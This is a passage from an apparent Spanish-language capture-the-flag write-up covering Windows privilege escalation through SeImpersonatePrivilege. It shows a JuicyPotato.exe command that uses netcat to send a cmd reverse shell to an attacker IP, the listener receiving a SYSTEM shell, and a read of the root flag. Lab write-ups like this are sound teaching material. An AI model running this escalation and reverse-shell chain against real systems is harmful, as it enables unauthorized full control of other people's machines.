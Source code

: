 # Escalada de Privilegios

Una vez ganado acceso al sistema, se detectó que el usuario `merlin` posee los siguientes privilegios:

```bash
C:\Windows\Temp\privesc> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

El privilegio `SeImpersonatePrivilege` es considerado como crítico, porque en consecuencia mediante utilidades como '**JuicyPotato.exe**', un usuario no privilegiado que disponga de estos privilegios podría ser capaz de convertirse en administrador local del sistema. 

Una vez alojados los recursos necesarios para ejecutar esta utilidad y ganar acceso al sistema como administradores, se procedió a ejecutar el binario `JuicyPotato.exe` para mediante el binario de Netcat enviar una Shell interactiva por TCP al equipo de atacante:

```bash
C:\Windows\Temp\privesc> JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd 10.10.16.109 443" -l 1222

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1222
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Tras su ejecución, se obtuvo acceso al sistema como usuario `nt authority\system`:

```bash
rlwrap nc -nlvp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49173.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami

nt authority\system
```

Para finalizar, se leyó la flag `root.txt` alojada en la ruta `C:\Users\Administrator\Desktop\`:

```bash
C:\Users\Administrator\Desktop> type root.txt

c837f7b699feef5475a0c079f9d4f5ea
```